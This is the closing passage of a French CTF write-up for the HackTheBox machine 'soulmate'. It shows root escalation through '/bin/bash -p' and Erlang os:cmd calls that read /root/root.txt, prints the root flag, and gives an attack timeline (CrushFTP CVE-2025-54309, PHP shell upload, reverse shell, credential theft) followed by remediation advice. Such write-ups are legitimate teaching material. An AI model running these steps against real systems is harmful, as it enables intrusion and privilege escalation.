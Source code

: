 4. **Dans un autre terminal SSH (en tant que ben) :**
   ```bash
   /bin/bash -p
   ```

5. **Root obtenu :**
   ```bash
   cat /root/root.txt
   # 1181db740888adc04910d2e7cb46a364
   ```

### Méthode 2 : Exécution directe

Depuis le shell Erlang :

```erlang
os:cmd("id").
# "uid=0(root) gid=0(root) groups=0(root)\n"

os:cmd("cat /root/root.txt").
# "1181db740888adc04910d2e7cb46a364\n"
```

---

## Timeline de l'attaque

```
1. Nmap → Découverte de soulmate.htb
2. Gobuster vhost → ftp.soulmate.htb (CrushFTP)
3. CVE-2025-54309 → Création admin (htbadmin)
4. CrushFTP → Upload shell.php (utilisateur Ben)
5. Reverse shell → www-data
6. Exfiltration soulmate.db → Échec (hash bcrypt)
7. LinPEAS → Découverte Erlang service
8. start.escript → Credentials de Ben
9. SSH ben@soulmate.htb → user.txt
10. SSH ben@127.0.0.1:2222 → Shell Erlang (root)
11. os:cmd() → Élévation root → root.txt
```

---

## Flags

- **User flag :** `[dans /home/ben/user.txt]`
- **Root flag :** `1181db740888adc04910d2e7cb46a364`

---

## Remédiation

1. **Mettre à jour CrushFTP** → Version ≥ 11.3.4_23
2. **Ne pas stocker de credentials en clair** dans les scripts
3. **Principe du moindre privilège** : Le service Erlang ne devrait pas tourner en root
4. **Limiter l'accès SSH** au port 2222 (localhost uniquement + firewall)
5. **Audit des permissions** : Pas de `os:cmd()` accessible sans validation

---